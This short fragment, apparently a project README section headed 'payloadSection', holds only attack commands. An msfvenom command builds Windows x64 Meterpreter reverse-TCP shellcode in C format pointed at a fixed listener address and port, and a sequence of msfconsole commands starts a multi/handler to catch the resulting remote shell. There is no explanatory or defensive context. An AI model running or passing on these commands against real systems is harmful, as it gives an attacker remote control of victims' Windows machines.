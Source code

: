 # payloadSection

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.28.3.47 lport=4444 -f c

msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lhost 172.28.3.47

set lport 4444

run
